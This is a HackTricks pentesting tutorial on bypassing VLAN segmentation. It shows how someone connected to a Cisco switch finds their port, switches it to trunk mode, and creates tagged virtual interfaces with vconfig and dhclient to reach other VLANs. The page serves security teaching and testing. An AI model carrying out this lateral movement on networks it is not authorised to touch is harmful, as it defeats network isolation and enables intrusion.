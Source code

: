 # Lateral VLAN Segmentation Bypass

<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

* Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access to the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the** [**hacktricks github repo**](https://github.com/carlospolop/hacktricks)**.**

</details>

**This page was copied from** [**https://medium.com/@in9uz/cisco-nightmare-pentesting-cisco-networks-like-a-devil-f4032eb437b9**](https://medium.com/@in9uz/cisco-nightmare-pentesting-cisco-networks-like-a-devil-f4032eb437b9)****

If you have access to a switch that you are directly connected to, you have the ability to bypass VLAN segmentation within the network. Simply switch the port to trunk mode (otherwise known as trunk), create virtual interfaces with the IDs of the target VLANs, and configure an IP address. You can try requesting the address dynamically (DHCP) or you can configure it statically. It depends on the case.

First you need to find out exactly which port you are connected to. This is done via CDP messages, or you can search the port by mask **include**.

<figure><img src="../../.gitbook/assets/image (198).png" alt=""><figcaption></figcaption></figure>

**If the CDP is suddenly disabled, you can try searching the port by our MAC address.**

```
SW1(config)# show mac address-table | include 0050.0000.0500
```

<figure><img src="../../.gitbook/assets/image (249).png" alt=""><figcaption></figcaption></figure>

Before we switch to trunk mode, we need to list the existing VLANs and find out their identifiers. Then we will hang these identifiers on our interface to access VLANs. Thus, thanks to the trunk we can access any VLAN. By the way, the port we are connected to belongs to VLAN 10.

```
SW1# show vlan brief
```

<figure><img src="../../.gitbook/assets/image (178).png" alt=""><figcaption></figcaption></figure>

**Here we go. Enter interface configuration mode and go into trunk mode.**

```
SW1(config)# interface GigabitEthernet 0/2
SW1(config-if)# switchport trunk encapsulation dot1q
SW1(config-if)# switchport mode trunk
```

During the switch to trunk mode, connectivity is lost. But I will fix that.

<figure><img src="../../.gitbook/assets/image (70).png" alt=""><figcaption></figcaption></figure>

Create virtual interfaces and “hang” VLAN ID on them, and then raise them.

```
~$ sudo vconfig add eth0 10
~$ sudo vconfig add eth0 20
~$ sudo vconfig add eth0 50
~$ sudo vconfig add eth0 60
~$ sudo ifconfig eth0.10 up
~$ sudo ifconfig eth0.20 up
~$ sudo ifconfig eth0.50 up
~$ sudo ifconfig eth0.60 up
```

Now you need to request an address via DHCP. But if in your case this is not possible, you can set the address statically.

```
~$ sudo dhclient -v eth0.10
~$ sudo dhclient -v eth0.20
~$ sudo dhclient -v eth0.50
~$ sudo dhclient -v eth0.60
```

<figure><img src="../../.gitbook/assets/image (204).png" alt=""><figcaption></figcaption></figure>

Example of configuring a static IP address on an interface (VLAN 10):

```
~$ sudo ifconfig eth0.10 10.10.10.66 netmask 255.255.255.0
```

To test the connection, I initiate ICMP requests to the default gateways **for VLANs 10, 20, 50, 60**

<figure><img src="../../.gitbook/assets/image (207).png" alt=""><figcaption></figcaption></figure>

In the end, **I bypassed VLAN** segmentation and can get into any VLAN network, which unties my hands for the next steps

<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

* Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access to the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the** [**hacktricks github repo**](https://github.com/carlospolop/hacktricks)**.**

</details>
